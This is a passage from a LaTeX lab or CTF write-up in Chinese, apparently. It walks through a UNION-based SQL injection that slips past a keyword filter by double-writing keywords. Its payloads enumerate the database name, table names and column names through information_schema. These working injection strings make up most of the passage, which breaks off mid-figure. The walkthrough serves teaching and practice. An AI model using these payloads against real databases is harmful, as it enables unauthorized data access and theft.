    
\includegraphics[width=0.95\textwidth]{6.4.png}
    \caption{测试5列报错，确认列数为4}
\end{figure}

\subsubsection{步骤3：双写绕过，查询当前数据库}
\begin{lstlisting}
Amy Jones'ununionion seselectlect database(),2,3,4\#
\end{lstlisting}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{6.5.png}
    \caption{查询到数据库名：lilac}
\end{figure}

\subsubsection{步骤4：双写绕过，查询数据表名}
information\_schema 双写为 infoorrmation\_schema 绕过or过滤：
\begin{lstlisting}
Amy Jones'ununionion seselectlect group_concat(table_name),2,3,4 from infoorrmation_schema.tables where table_schema='lilac'\#
\end{lstlisting}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{6.6.png}
    \caption{查询到表名：pfiholbpnoejbnq}
\end{figure}

\subsubsection{步骤5：双写绕过，查询数据列名}
\begin{lstlisting}
Amy Jones'ununionion seselectlect group_concat(column_name),2,3,4 from infoorrmation_schema.columns where table_name='pfiholbpnoejbnq'\#
\end{lstlisting}
\begin{figure}[H]
    \centering
